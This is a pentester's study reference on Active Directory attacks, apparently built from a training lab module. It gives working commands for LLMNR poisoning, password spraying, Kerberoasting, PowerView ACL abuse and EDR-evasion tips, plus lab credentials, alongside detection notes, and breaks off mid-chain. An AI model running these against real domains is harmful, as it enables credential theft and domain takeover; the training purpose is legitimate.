








# Active Directory Enumeration & Attacks — Master Reference

> Presentation-grade synthesis of the entire HTB CPTS *Active Directory Enumeration & Attacks* module.
> Audience: peers and junior pentesters who already know Linux, networking, and basic Windows.
> Goal: leave able to explain the full attack chain from external recon to Enterprise Admin.

---

## 1. Executive Overview

Active Directory is Microsoft's hierarchical identity store: it authenticates every user, authorises every resource, and synchronises every Windows host in roughly 43% of enterprises. Because one principal — the Domain Controller — knows every credential and trusts every member computer, a single privileged compromise cascades into **domain-wide ownership**. The realistic attacker workflow runs *external recon → unauthenticated foothold (LLMNR poisoning or password spray) → credentialed enumeration with BloodHound → abuse of SPNs, ACLs, or unpatched DC vulnerabilities → DCSync of the KRBTGT hash → forging Golden Tickets to traverse parent/child or forest trusts → Enterprise Admin*. Most steps are not "exploits" in the CVE sense; they are abuses of legitimate features (Kerberos ticketing, ACL inheritance, replication) combined with weak passwords and decade-old defaults. Understanding this whole chain — not any single attack — is what separates a CPTS-tier operator from a script kiddie.

---

## 2. AD Architecture Fundamentals

| Concept                       | One-line definition                                                                                                                     |
| ----------------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| **Domain**                    | Logical group of objects (users, computers, groups) sharing a single AD database and policy boundary.                                   |
| **Tree**                      | One or more domains in a contiguous DNS namespace (e.g. `corp.com` + `eu.corp.com`).                                                    |
| **Forest**                    | One or more trees with a shared Schema, Configuration, and Global Catalog. The **true** security boundary in AD.                        |
| **OU (Organisational Unit)**  | Container inside a domain used to delegate admin rights and apply GPOs.                                                                 |
| **GPO (Group Policy Object)** | Policy bundle linked to a Site/Domain/OU, applied at boot or logon.                                                                     |
| **DC (Domain Controller)**    | A Windows server hosting the AD database (`ntds.dit`) and answering authentication.                                                     |
| **Schema**                    | The class/attribute blueprint for every AD object — one per forest.                                                                     |
| **Partitions**                | Schema, Configuration, and one Domain partition per domain (replicated separately).                                                     |
| **Global Catalog (GC)**       | Read-only partial replica of every domain in the forest, used for cross-domain lookups (TCP 3268).                                      |
| **FSMO roles**                | 5 single-master roles: Schema Master, Domain Naming Master (forest-wide); RID Master, PDC Emulator, Infrastructure Master (per domain). |
| **AD-integrated DNS**         | DNS zones stored as AD objects; SRV records (`_ldap._tcp`, `_kerberos._tcp`) advertise DCs.                                             |

### Forest topology



### Trust types



- **Parent-child / tree-root** — auto-created inside one forest; always transitive and bidirectional.
- **Forest trust** — manually created between two forest roots; transitive within each forest, blocked at forest edge unless configured.
- **External** — to a single domain in another forest; non-transitive; SID Filtering on by default.
- **Shortcut** — performance hack between two child domains.
- **Realm** — bridge to a non-Windows Kerberos realm.

---

## 3. Authentication Deep-Dive

Two protocols matter: **NTLM** (legacy challenge-response) and **Kerberos** (default since Win2000).

### NTLM in 30 seconds

1. Client → Server: NEGOTIATE.
2. Server → Client: random 8-byte challenge.
3. Client → Server: HMAC-MD5 of (NT hash, challenge, target info) — the *Net-NTLMv2* response.
4. Server → DC: forwards the response (NETLOGON).
5. DC verifies, returns yes/no.

`Net-NTLMv2` (Hashcat mode 5600) is what Responder captures and what we crack offline. It is **not** pass-the-hashable — only the raw `NT` hash (mode 1000) is.

### Kerberos full flow



- **TGT (Ticket Granting Ticket)** — encrypted with the KRBTGT account's NT hash. If you steal that hash → forge any TGT → **Golden Ticket**.
- **TGS** — encrypted with the *service* account's NT hash. This is what you crack in **Kerberoasting**.
- **Pre-authentication** — the AS-REQ's encrypted timestamp. If disabled (`DONT_REQ_PREAUTH`) the AS-REP can be requested with no creds → **AS-REP roasting** (mode 18200).

### NTLM vs Kerberos

| | NTLM | Kerberos |
|---|---|---|
| Default since | NT 4.0 | Windows 2000 |
| Cryptography | MD4/HMAC-MD5 | RC4 / AES-128 / AES-256 |
| Mutual auth | No | Yes (AP-REP) |
| Replay protection | Weak (challenge nonce) | Authenticator timestamp ±5 min |
| Pass-the-hash | Yes (NT hash) | Pass-the-Ticket / Pass-the-Key |
| Roastable | Net-NTLMv2 → 5600 | TGS → 13100 (RC4) / 19700 (AES256) |
| Relay risk | High (without SMB signing) | Low |
| Time-sensitive | No | Yes (clock skew >5 min = fail) |

---

## 4. The Kill Chain — Global Attacker Roadmap



This is the picture to keep in your head. Every following section is a node on this graph.

---

## 5. Attack Techniques

### LLMNR / NBT-NS Poisoning

- **Concept.** Windows falls back from DNS to LLMNR (UDP 5355) and then NBT-NS (UDP 137) when a name doesn't resolve. *Any* host on the link can answer those broadcasts. Attacker answers "yes I'm `\\printer01`", victim sends a NetNTLMv2 challenge-response, attacker captures and cracks it offline.
- **Prerequisites.** Layer-2 access to the same broadcast domain as the victims; tool (Responder on Linux, Inveigh on Windows).
- **Procedure.**
  1. (Recon, optional) `sudo responder -I ens224 -A` — analyse mode, no poisoning.
  2. Active poisoning: `sudo responder -I ens224`.
  3. From Windows attack host: `Import-Module .\Inveigh.ps1 ; Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y` (or `.\Inveigh.exe` C# version, ESC for console).
  4. Logs land in `/usr/share/responder/logs/` (`SMB-NTLMv2-SSP-<IP>.txt`).
  5. Crack: `hashcat -m 5600 hashfile /usr/share/wordlists/rockyou.txt`.
- **Detection / mitigation.** Honeypot LLMNR queries for non-existent hosts; monitor UDP 5355 / 137; GPO `Turn OFF Multicast Name Resolution` to disable LLMNR; per-host registry to disable NBT-NS; enable SMB signing to block relay; Event IDs 4697 / 7045 (relay-related service install). MITRE **T1557.001**.



- **Cracked example (Section 6 lab).** `backupagent` → `h1backup55`; `wley` → `transporter@4`; `svc_qualys` → `security#1`.
- **Source.** [[ad-enum-attacks/06-llmnr-nbtns-poisoning-linux]], [[ad-enum-attacks/07-llmnr-nbtns-poisoning-windows]]

---

### External Recon

- **Concept.** Passive OSINT before any packet hits the target: ASNs, DNS zones, leaked creds, naming conventions, tech stack.
- **Prerequisites.** Internet, patience, public sources.
- **Procedure.**
  1. ASN/IP space — IANA, ARIN, RIPE, `bgp.he.net`.
  2. DNS — `dig any inlanefreight.com`, `dig txt`, `dig mx`, `dig ns`; ViewDNS.info; PTRArchive.
  3. Username harvesting — LinkedIn + `linkedin2username`; document metadata.
  4. Breach data — HaveIBeenPwned, Dehashed for password reuse against VPN/OWA/RDP.
  5. Code/cloud — Trufflehog, Greyhat Warfare for keys and config files.
- **Detection / mitigation.** Scrub document metadata, sanitise job postings, enforce DMARC, monitor for credential-stuffing patterns at the perimeter. MITRE **T1589 / T1590**.
- **Source.** [[ad-enum-attacks/04-external-recon]]

---

### Initial Domain Enumeration (unauthenticated)

- **Concept.** From an unauthenticated network position, find live hosts, the DC, and valid usernames.
- **Prerequisites.** L2/L3 access to the internal subnet (e.g. `172.16.5.0/23`).
- **Procedure.**
  1. Passive — `sudo tcpdump -i ens224 -w capture.pcap`; `sudo responder -I ens224 -A`.
  2. ICMP sweep — `fping -asgq 172.16.5.0/23 2>/dev/null > hosts.txt`.
  3. Service scan — `sudo nmap -v -A -iL hosts.txt -oA host-enum`; `sudo nmap -sV --open -iL hosts.txt -oA service-scan`.
  4. Username enumeration — `kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 /opt/jsmith.txt -o valid_users.txt`.
  5. Anonymous SMB / LDAP probes (overlap with Section 9/10 below).
- **Detection / mitigation.** NIDS for Nmap fingerprints, baseline ICMP, audit Kerberos pre-auth events 4768. MITRE **T1595 / T1018**.
- **Source.** [[ad-enum-attacks/05-initial-domain-enum]]

---

### Password Policy Enumeration

- **Concept.** Pull `lockoutThreshold`, `lockoutDuration`, `minPwdLength` so spraying doesn't lock out the domain.
- **Prerequisites.** SMB null / LDAP anonymous access, OR any valid creds.
- **Procedure.**
  1. Credentialed: `crackmapexec smb 172.16.5.5 -u <USER> -p <PASS> --pass-pol`.
  2. Null SMB: `rpcclient -U "" -N 172.16.5.5` → `getdompwinfo` / `querydominfo`.
  3. `enum4linux -P 172.16.5.5` or `enum4linux-ng -P 172.16.5.5 -oA pol`.
  4. LDAP anon: `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength`.
  5. From a domain-joined Windows host: `net accounts /domain` or `Get-DomainPolicy` (PowerView).
- **Reading the LDAP output.** `lockoutThreshold: 5` → max 2-3 attempts/round; `lockoutDuration: -18000000000` = 30 min (negative 100-ns intervals). `minPwdLength: 8` confirmed for INLANEFREIGHT.LOCAL.
- **Detection / mitigation.** Disable null sessions, enforce LDAP signing/channel binding, watch for rare `getdompwinfo` calls. MITRE **T1201**.
- **Source.** [[ad-enum-attacks/09-enumerating-password-policies]]

---

### Building a User List

- **Concept.** A spray needs valid usernames. Three unauthenticated avenues and one credentialed one.
- **Procedure.**
  - **enum4linux:** `enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"`.
  - **rpcclient:** `rpcclient -U "" -N 172.16.5.5` → `enumdomusers`.
  - **CME:** `crackmapexec smb 172.16.5.5 --users` (also gives `badpwdcount`).
  - **ldapsearch:** `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "`.
  - **windapsearch:** `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`.
  - **Kerbrute (stealthiest):** `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`. Logs only AS-REQ (4768), not failed logons (4625).
- **Source.** [[ad-enum-attacks/10-password-spraying-user-list]]

---

### Password Spraying

- **Concept.** One password tested against many users. Avoids lockout by capping attempts per account per window. Use against external portals (OWA, VPN, O365) and internal protocols (SMB, Kerberos pre-auth).
- **Prerequisites.** Validated user list + known lockout policy + a candidate password (`Welcome1`, `Winter2022`, `Password123`, `<Company>2024`).
- **Procedure (Linux).**
  1. `for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`
  2. `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`
  3. `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +`
  4. Local-admin hash spray: `sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H <NT_HASH> | grep +`.
- **Procedure (Windows, domain-joined).**
  1. `Import-Module .\DomainPasswordSpray.ps1`
  2. `Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue` — auto-pulls users from AD, auto-honours lockout policy.
- **Brute force vs spray.**

| Brute force | Spray |
|---|---|
| Many passwords → 1 user | 1 password → many users |
| High lockout risk | Low (with delay) |
| Quick + noisy | Slow + stealthy |
| Targeted account | Wide initial access |

- **Detection / mitigation.** Event 4625 (logon failure) for SMB; 4771 (Kerberos pre-auth fail). Correlate many across short window. MFA, lockout, password filters, SmartScreen. **T1110.003**.
- **Gotcha.** `--local-auth` is mandatory when spraying local-admin hashes — without it CME tries domain auth and locks the built-in Administrator.
- **Source.** [[ad-enum-attacks/08-password-spraying-overview]], [[ad-enum-attacks/11-internal-password-spraying-linux]], [[ad-enum-attacks/12-internal-password-spraying-windows]]

---

### Security Controls Enumeration

- **Concept.** Before running offensive tools, learn what blocks them. Defender, AppLocker, Constrained Language Mode, LAPS.
- **Procedure.**
  1. `Get-MpComputerStatus` — Defender state, real-time protection, AMProductVersion.
  2. `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` — read whitelist.
  3. `$ExecutionContext.SessionState.LanguageMode` — `FullLanguage` vs `ConstrainedLanguage`.
  4. `Find-LAPSDelegatedGroups` — who can read LAPS passwords.
  5. `Find-AdmPwdExtendedRights` — users with All Extended Rights (often the user that domain-joined the host).
  6. `Get-LAPSComputers` — pull cleartext local-admin passwords if you have rights.
- **Bypass tips.** AppLocker often forgets `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` and `powershell_ise.exe`; CLM is enforced via AppLocker *or* WDAC — bypass depends on which.
- **Source.** [[ad-enum-attacks/13-enumerating-security-controls]]

---

### Credentialed Enumeration

- **Concept.** With one valid domain account (clear or NT hash), enumerate every user, group, ACL, share, session, GPO, and trust to map attack paths.
- **Procedure (Linux).**
  - Users: `sudo crackmapexec smb <DC> -u <U> -p <P> --users`
  - Groups: `--groups`
  - Sessions: `sudo crackmapexec smb <HOST> -u <U> -p <P> --loggedon-users` — `(Pwn3d!)` = local admin
  - Shares: `--shares`; spider readable shares: `-M spider_plus --share '<NAME>'`
  - SMB perms: `smbmap -u <U> -p <P> -d <DOM> -H <DC>` then `-R '<SHARE>' --dir-only`
  - `rpcclient -U "<U>%<P>" <DC>` → `enumdomusers`, `queryuser 0x492` (RIDs are hex)
  - Privileged users via LDAP: `python3 windapsearch.py --dc-ip <DC> -u <U>@<DOM> -p <P> -PU` / `--da`
  - Full BloodHound graph: `sudo bloodhound-python -u '<U>' -p '<P>' -ns <DC> -d <DOM> -c all`
- **Procedure (Windows).**
  - `Import-Module ActiveDirectory ; Get-ADDomain ; Get-ADTrust -Filter *`
  - SPNs: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
  - Recursive group: `Get-ADGroupMember -Identity "Domain Admins" -Recursive`
  - PowerView deep dive: `Get-DomainUser -Identity <USER> | Select samaccountname,memberof,pwdlastset,lastlogontimestamp,admincount,serviceprincipalname,useraccountcontrol`
  - Local admin probe: `Test-AdminAccess -ComputerName <HOST>`
  - Find creds in shares: `.\Snaffler.exe -d <DOMAIN> -s -v data -o snaffler.log` — color-codes Red/Yellow/Green by sensitivity.
  - Full BloodHound: `.\SharpHound.exe -c All --zipfilename ilf.zip` → drag into BloodHound GUI.
- **Pre-built BloodHound queries to run first.** *List all Kerberoastable Accounts*; *Find Computers where Domain Users are Local Admin*; *Find Shortest Path to Domain Admins*; *Find Computers with Unsupported OS*; *Map Domain Trusts*.
- **Source.** [[ad-enum-attacks/14-credentialed-enum-linux]], [[ad-enum-attacks/15-credentialed-enum-windows]]

---

### Living off the Land

- **Concept.** When you can't drop tools (locked-down host, no internet, EDR), enumerate AD using only built-ins: `net`, `dsquery`, `wmic`, ActiveDirectory PS module.
- **Key commands.**
  - `systeminfo` — OS, patches, domain, network in one shot.
  - `net group "Domain Admins" /domain` ; `net localgroup Administrators` ; `net user <USER> /domain`.
  - `wmic ntdomain list /format:list` — domain/forest trust/DC info.
  - `wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname` — every domain user via WMI.
  - `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr distinguishedName userAccountControl` — disabled accounts (UAC bit 2).
  - LDAP OIDs: `1.2.840.113556.1.4.803` = bitwise AND, `.804` = OR, `.1941` = recursive DN membership.
- **OPSEC tip.** `net1` is a drop-in for `net.exe` that often slips simple string-based EDR rules. PowerShell v2 downgrade (`powershell.exe -version 2`) bypasses Script Block Logging — but the downgrade itself is logged.
- **Source.** [[ad-enum-attacks/16-living-off-the-land]]

---

### Kerberoasting

- **Concept.** Any domain user can request a TGS for any account that has an SPN. The TGS is encrypted with the service account's NT hash → crack offline. Service accounts are commonly over-privileged (Domain Admins, local admin on many hosts).
- **Prerequisites.** One valid domain user (clear or hash). Network reach to a DC.
- **Procedure (Linux).**
  ```
  GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
  GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile sap.tgs
  hashcat -m 13100 sap.tgs /usr/share/wordlists/rockyou.txt --force
  john --wordlist=/usr/share/wordlists/rockyou.txt sap.tgs
  ```
- **Procedure (Windows).**
  ```
  setspn.exe -Q */*
  Import-Module .\PowerView.ps1
  Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\tgs.csv
  .\Rubeus.exe kerberoast /stats
  .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
  .\Rubeus.exe kerberoast /user:svc_vmwaresso /nowrap
  .\Rubeus.exe kerberoast /tgtdeleg /nowrap   # force RC4 on pre-2019 DCs
  ```
- **Encryption matters.** RC4 (mode 13100) cracks ~70× faster than AES-256 (mode 19700). Check with `Get-DomainUser <U> -Properties msds-supportedencryptiontypes`. On Server 2019+ DCs `/tgtdeleg` no longer works; you'll get AES.
- **Detection / mitigation.** Event 4769 (TGS requested) — bursts from one account = roast. Use gMSA/MSA (rotating 240-char passwords), AES-only enctype, honeypot SPN account. **T1558.003**.



- **Source.** [[ad-enum-attacks/17-kerberoasting-linux]], [[ad-enum-attacks/18-kerberoasting-windows]]

---

### ACL Primer

- **Concept.** Every AD object has a **DACL** (who can do what) and a **SACL** (audit). Each ACL is a list of **ACEs**: `<SID> <type> <flags> <access mask>`. Misconfigured ACEs are invisible to vuln scanners and persist for years.
- **Key ACEs to hunt.**

| ACE | Enables |
|---|---|
| **ForceChangePassword** | Reset target's password without knowing it (`Set-DomainUserPassword`). |
| **GenericWrite** | Write any non-protected attribute → set SPN → *targeted Kerberoast* (`Set-DomainObject`). |
| **AddSelf / WriteMember** | Add yourself to a group. |
| **GenericAll** | Full control (password reset + group add + SPN + LAPS read). |
| **WriteDACL** | Edit the DACL itself → grant yourself anything → most dangerous single ACE. |
| **WriteOwner** | Take ownership → then modify DACL. |
| **AllExtendedRights** | ForceChangePassword + AddMember + ReadLAPSPassword + ReadGMSAPassword + DCSync. |
| **DS-Replication-Get-Changes + -All** | DCSync rights. |

- **Source.** [[ad-enum-attacks/19-acl-abuse-primer]]

---

### ACL Enumeration

- **Concept.** Walk the graph: from every user/group you control, find all ACEs that point outward; pivot through them.
- **Procedure.**
  ```
  Import-Module .\PowerView.ps1
  $sid = Convert-NameToSid wley
  Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  # → ForceChangePassword over damundsen
  $sid = Convert-NameToSid damundsen
  Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  # → GenericWrite over Help Desk Level 1
  Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
  # → nested into Information Technology
  $sid = Convert-NameToSid "Information Technology"
  Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  # → GenericAll over adunn
  $sid = Convert-NameToSid adunn
  Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  # → DS-Replication-Get-Changes + -In-Filtered-Set = DCSync
  ```
- **BloodHound shortcut.** Right-click controlled user → *Outbound Object Control → Transitive Object Control*. Visualises the entire chain instantly.
- **Always pass `-ResolveGUIDs`** — without it `ObjectAceType` is a raw GUID like `00299570-246d-11d0-a768-00aa006e0529` (= User-Force-Change-Password).
- **Source.** [[ad-enum-attacks/20-acl-enumeration]]

---

### ACL Abuse Tactics — Full Chain

- **Concept.** Each ACE compromise re-authenticates as the new principal, then uses *their* ACEs to reach the next. Cleanup order matters: undo the last write first or you lose the rights to undo it.
- **Full chain (commands verbatim from the lab).**
  ```
  # 1. Auth as wley (ForceChangePassword on damundsen)
  $SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

  # 2. Reset damundsen
  $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
  Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

  # 3. Auth as damundsen and add to Help Desk Level 1 (nested into IT)
  $SecPassword2 = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
  $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword2)
  Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

  # 4. Set fake SPN on adunn (we now have GenericAll via nested IT group)
  Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

  # 5. Roast adunn
  .\Rubeus.exe kerberoast /user:adunn /nowrap
